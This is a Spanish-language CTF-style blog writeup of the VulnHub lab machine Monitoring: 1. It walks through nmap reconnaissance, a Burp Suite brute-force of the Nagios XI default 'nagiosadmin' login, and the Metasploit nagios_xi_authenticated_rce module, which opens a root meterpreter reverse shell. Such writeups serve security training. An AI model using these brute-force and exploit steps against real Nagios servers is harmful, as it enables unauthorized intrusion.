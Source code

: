 ```yaml
---
layout: post
title: Writeup Monitoring 1
date: 02-12-2024
categories: [Writeup, Vulnhub]
tag: [default-user, Burp Suite]
image: /assets/images/monitoring-1/featured_image_monitoring.jpg
alt: portada de WriteUp Monitoring
---
```



En este post te llevo paso a paso por la máquina Monitoring: 1, un desafío de nivel fácil disponible en VulnHub. 

Diseñada para quienes desean mejorar en el pentesting

## Resolucion de la maquina

### Fase de Fingerprinting / Reconocimiento (Reconnaissance):

#### Descubrimiento de IP objetivo en la red

Lanzo `sudo netdiscover -i eth0 -r 192.168.88.0/24` para descubrir los hosts en la red

![alt text](../assets/images/monitoring-1/image.png)

Una vez obtenida la IP de la maquina objetivo la guardo en la variable IP.

```sh
export IP=192.168.88.11
```

Lanzo un escaneo con nmap para ver los puertos que tiene disponible.

```sh
nmap -p- $IP 
```

![alt text](../assets/images/monitoring-1/image-3.png)

```sh
PORT     STATE SERVICE
22/tcp   open  ssh
25/tcp   open  smtp
80/tcp   open  http
389/tcp  open  ldap
443/tcp  open  https
5667/tcp open  unknown
```

Voy a redirigir esta salida a awk y grep para obtener una lista separada por comas para poder exportarla a la variable PORTS y despues usarla en el scaneo detallado.

```sh
nmap -p- $IP | awk '{print $1}' | grep -E '^[0-9]+' | cut -d'/' -f1 | paste -sd, - > puertos.txt
cat puertos.txt   
export PORTS=22,25,80,389,443,5667
```

![alt text](../assets/images/monitoring-1/image-4.png)

Ahora usando la variable PORTS realizo un escaneo en mas profundidad.

```sh
sudo nmap -p$PORTS -sS -sV -sC $IP -O -oA scan_nmap_$IP
```

![alt text](../assets/images/monitoring-1/image-5.png)

#### Descubrimiento de puertos y servicios en el host objetivo

Resultado de la exploracion de los servicios en los puertos detectados:

##### Puerto 22 - SSH

```txt
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b8:8c:40:f6:5f:2a:8b:f7:92:a8:81:4b:bb:59:6d:02 (RSA)
|   256 e7:bb:11:c1:2e:cd:39:91:68:4e:aa:01:f6:de:e6:19 (ECDSA)
|_  256 0f:8e:28:a7:b7:1d:60:bf:a6:2b:dd:a3:6d:d1:4e:a4 (ED25519)
```

##### Puerto 25 - SMTP

```txt
PORT     STATE SERVICE    VERSION
25/tcp   open  smtp       Postfix smtpd
|_smtp-commands: ubuntu, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN
| ssl-cert: Subject: commonName=ubuntu
| Not valid before: 2020-09-08T17:59:00
|_Not valid after:  2030-09-06T17:59:00
|_ssl-date: TLS randomness does not represent time
```

##### Puerto 80 - HTTP

```txt
PORT     STATE SERVICE    VERSION
80/tcp   open  http       Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Nagios XI
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

##### Puerto 389 - LDAP

```txt
PORT     STATE SERVICE    VERSION
389/tcp  open  ldap       OpenLDAP 2.2.X - 2.3.X
```

##### Puerto 443 - HTTPS

```txt
PORT     STATE SERVICE    VERSION
443/tcp  open  ssl/http   Apache httpd 2.4.18 ((Ubuntu))
| ssl-cert: Subject: commonName=192.168.1.6/organizationName=Nagios Enterprises/stateOrProvinceName=Minnesota/countryName=US
| Not valid before: 2020-09-08T18:28:08
|_Not valid after:  2030-09-06T18:28:08
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.18 (Ubuntu)
| tls-alpn: 
|_  http/1.1
|_http-title: Nagios XI
```

##### Puerto 5667

```txt
PORT     STATE SERVICE    VERSION
5667/tcp open  tcpwrapped

```
##### Informacion general de la maquina

```txt
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
```

### Fase de Footprinting / Exploración (Scanning):

#### Exploracion puerto 80

Realizo una exploracion visual de la web que sirve el puerto 80 que me lleva a una pagina de bienvenida que me da el acceso a **Nagios XI**

![alt text](../assets/images/monitoring-1/image-6.png)

Accedo y llego a una pagina donde hay un formulario de acceso y algo de informacion nada relevante.

![alt text](../assets/images/monitoring-1/image-7.png)

Como no conozco este servicio Nagios en nada, consulto en Google si tiene usuario predeterminado. Obtengo de esta forma que el usuario predeterminado es nagiosadmin y que la clave se define en el primer acceso al sitio.

![alt text](../assets/images/monitoring-1/image-12.png)

Si el administrador de la maquina no ha tenido cuidado con este detalle deshabilitando el usuario por defecto es probable que pueda atacarlo con un ataque de fuerza bruta y quizas obtener acceso. 

Para este ataque uso Burp-Suite, defino un ataque de tipo cluster bomb para usar el payload 1 como username y el payload 2 como password. 

![alt text](../assets/images/monitoring-1/image-11.png)

En el payload 1 defino como usuario **nagiosadmin**

![alt text](../assets/images/monitoring-1/image-9.png)

En el payload 2 cargo un diccionario basico de claves **unix_password.txt** 

![alt text](../assets/images/monitoring-1/image-10.png)

A continuacion lanzo el ataque y veo que en la primera de las claves probadas el valor de length es diferente por mucho a los demas. Lo que me indica que es una clave valida.

![alt text](../assets/images/monitoring-1/image-8.png)

Compruebo las credenciales **[nagiosadmin:admin]** y obtengo acceso al sistema Nagios. 

![alt text](../assets/images/monitoring-1/image-13.png)

Una vez dentro veo que el sistema me da informacion sobre su version

![alt text](../assets/images/monitoring-1/image-14.png)

### Explotación

Para explotar el sistema usare metasploit. 

Busco en metasploit vulnerabilidades conocidas para **nagios xi** mediante el comando:

```sh
search nagios xi
```

![alt text](../assets/images/monitoring-1/image-16.png)

Selecciono el modulo nagios_xi_authenticated_rce y defino los valores necesarios despues de consultarlos en options.

```sh
use exploit/linux/http/nagios_xi_authenticated_rce
options
set password admin
set LHOST 192.168.88.3
exploit
```

Esto nos da una sesion de meterpreter.

![alt text](../assets/images/monitoring-1/image-17.png)

Si consulto que usuario tengo en la sesion de meterpreter, me devuelve que tengo el usuario root. 

![alt text](../assets/images/monitoring-1/image-18.png)

Con este usuario puedo acceder a la carpeta /root/ y leer el fichero proof.txt para obtener la flag de solucion de la maquina.




